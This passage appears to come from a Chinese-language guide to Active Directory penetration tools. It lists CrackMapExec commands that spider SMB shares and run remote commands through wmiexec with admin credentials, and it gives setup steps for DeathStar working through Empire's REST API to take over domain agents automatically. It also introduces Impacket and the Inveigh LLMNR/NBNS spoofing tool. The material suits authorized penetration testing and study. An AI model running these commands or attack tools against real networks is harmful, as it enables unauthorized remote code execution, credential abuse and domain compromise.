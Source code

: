 > cme smb 192.168.1.111 -u admin -p 'xxxeeee' --spider C\$
>
> \#\#\#\#　远程执行命令  
> cme smb 192.168.1.111 -u admin -p 'xxxeeee' -X '$PSVersionTable' --exec-method wmiexec  
> cme smb 192.168.1.111 -u admin -p 'xxxeeee' -X '$set' --exec-method wmiexec  
> cme smb 192.168.1.111 -u admin -p 'xxxeeee' -X '$whoami' --exec-method wmiexec  
> cme smb 192.168.1.111 -u admin -p 'xxxeeee' -X 'whoami' --exec-method wmiexec  
> cme smb 192.168.1.111 -u admin -p 'xxxeeee' -X 'ipconfig /all' --exec-method wmiexec  
> cme smb 192.168.1.111 -u admin -p 'xxxeeee' -X 'tasklist /svc' --exec-method wmiexec  
> cme smb 192.168.1.111 -u admin -p 'xxxeeee' -x ipconfig

\*\*\*\*[**DeathStar**](https://github.com/byt3bl33d3r/DeathStar)**: AD渗透的Python脚本**

直译过来为死亡之星，可惜该项目在去年已经不在维护，也就不在支持同Empire的联动了。不过有读者想要继续该研究的，这里还有人在维护[DeathStar](https://github.com/byt3bl33d3r/DeathStar)与[Empire](https://github.com/byt3bl33d3r/Empire)

下载回来后首先执行

```text
python empire --rest --username username --password password
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

这就会启动Empire命令行以及RESTfulAPI服务。  
使用以下命令启动Deathstar：  


```text
git clone https://github.com/byt3bl33d3r/DeathStar
# Death Star is written in Python 3
pip3 install -r requirements.txt
# Supply the username and password you started Empire's RESTful API with
./DeathStar.py -u username -p password
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

Death Star会创建一个http侦听，然后你会看到一个’Polling for Agents’代理状态，这就意味着你已经连接上了Empire的RESTfulAPI，然后DeathStar在等待第一个Agent。一旦得到一个在域中的agent，Deathstar就会对它进行接管，然后就会开始攻击。  


## [Impacket](https://github.com/SecureAuthCorp/impacket): 渗透测试的python工具集

相信大多数攻击人员都会使用该工具集，目前该工具已经集成到kali上，你也可以在github上下载[最新版本](https://github.com/SecureAuthCorp/impacket)。

工具集内集成了非常多类型漏洞的脚本，相对内网渗透来说，能把impacket包内的工具利用熟练以及了解原理就很不错。

介绍一篇译文：[impacket介绍](https://www.cnblogs.com/backlion/p/10676339.html)

* [Inveigh](https://github.com/Kevin-Robertson/Inveigh): powershell攻击脚本

利用名称解析协议中的缺陷进行内网渗透是执行中间人（MITM）攻击的常用技术。有两个特别容易受到攻击的名称解析协议分别是链路本地多播名称解析（LLMNR）和NetBIOS名称服务（NBNS）。AD环境中默认启用了LLMNR和NBNS，这使得这种类型的欺骗攻击将会成为一种非常有效的方式，既可以获得对域的初始访问权限，也可以在漏洞后期利用过程中提升域权限。Inveigh是PowerShell ADIDNS / LLMNR / NBNS / mDNS / DNS欺骗程序和中间人工具  

